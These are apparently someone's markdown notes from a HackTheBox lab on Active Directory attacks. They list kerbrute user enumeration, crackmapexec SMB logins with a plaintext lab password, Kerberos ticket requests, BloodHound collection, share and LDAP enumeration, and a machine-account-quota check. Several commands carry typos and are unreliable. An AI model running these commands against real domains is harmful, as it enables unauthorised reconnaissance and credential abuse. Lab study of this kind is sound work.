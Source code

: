 
# Kerbrute
- Kerbrute
   - set sys date to domain date
	```
	sudo ntpdate dc.absolute.htb 
	```
   - check user valid with users.txt
	```
	./kerbute userenum --dc dc.absolute.htb -d absolute.htb -o users.txt
	```
  - check user validate (-k to use Kerberos)
	```
	cme smb 10.10.11.181 -k -u d.klay -p Darkmoonsky248girl
    ```
  - generate access token
   ```
	getTGT.py absolute.htb/d.klay
	 ```
   - blood hound scrape
   ```
   KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c all -d absolute.htb -u d.klay
     ```
   - Scan shares
   ```
   cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares
     ```
   - ldapsearch
   ```
   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -s base

   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
	
  ldapsearch -h support.htb -D 'user@support.htb' - w 'password' -b 'c=support,dc=htb'
	 ```
   - Kerbrute
   ```
   KRBSCCNAME=/home/accesstoken.ccache ./smbclient.py -k absolute.htb/user_goview@dc.absolute.htb -target -ip 10.10.11.181
     ```
   - see if you can create a machien
 ```
	Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota
```
